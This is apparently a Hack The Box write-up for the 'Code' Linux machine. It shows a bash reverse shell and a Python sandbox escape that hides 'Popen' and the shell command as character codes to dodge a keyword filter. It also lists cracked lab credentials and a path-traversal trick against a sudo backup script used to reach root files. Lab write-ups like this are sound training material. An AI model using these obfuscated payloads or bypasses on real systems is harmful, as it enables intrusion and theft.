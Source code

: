 # Code HTB Easy Linux Machine
![code](./images/code.png)


Started: 5/8/25

Pwned: 5/8/25

### Nmap Output
![nmap](./images/nmap.png)  

popen was blocked  
![keywordblock](./images/keywordblocked.png)  
'''
RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  

x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
e(['/bin/bash', '-c', cmd], shell=False) 
'''

### RevShell/Foothold

Command: nc -lvnp 4444 

![revshell](./images/revshell.png)  

![userflag](./images/userflag.png)  

database.db  
![database](./images/database.png)  

crackstation  
![crackstation](./images/crackstation.png)  

development:development  
martin:nafeelswordsmaster  

sudo -l  
![sudo](./images/sudo.png)  

backy.sh  
![backy](./images/backy.png)  

Getting Root  

![task](./images/task.png)  

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully grab the files  

![exploit](./images/exploit.png)  

![loot](./images/loot.png)  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.
